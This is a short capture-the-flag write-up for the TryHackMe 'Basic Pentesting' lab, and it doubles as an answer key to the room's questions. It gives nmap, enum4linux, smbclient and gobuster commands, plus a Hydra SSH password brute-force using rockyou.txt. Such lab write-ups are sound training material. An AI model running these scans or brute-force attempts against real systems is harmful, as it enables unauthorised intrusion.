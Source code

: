  # Writeup for: TryHackMe Basic Pentesting
Difficulty: Easy

Cathegory: Boot2Root

File Attached: -


## Deploy the machine and connect to our network

Nothing to do 


## Find the services exposed by the machine

nmap -A -p- <ip> 

22 			ssh
80 			Webserver
139 		SMB
445 		SMB
8009 		Apache JSERV
8080		Apache Tomcat 9.0.7s


What I recommend on this is:


1. SMB 
2. Enumerate Webserver
3. Everything else


We know that SMB is there so....

enum4linux <ip>

which gives up /anonymous directory 

so...

smbclient //<ip>/anonymous

dir

this gives us the "staff.txt"

get staff.txt

exit

and now cat 

cat staff.txt

which gives us the usernames:

-> Jan
-> Kay

## What is the name of the hidden directory on the web server(enter name without /)? 

gobuster dir -u <ip> -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt

/development

## User brute-forcing to find the username & password

So, Jan Time to get your password!

## What is the Password?
We use a Tool Called Hydra for this 

Hydra -l Jan -P /usr/share/wordlists/rockyou.txt ssh://<ip>

## What service do you use to access the Server?

There is only one left to use :) ssh 


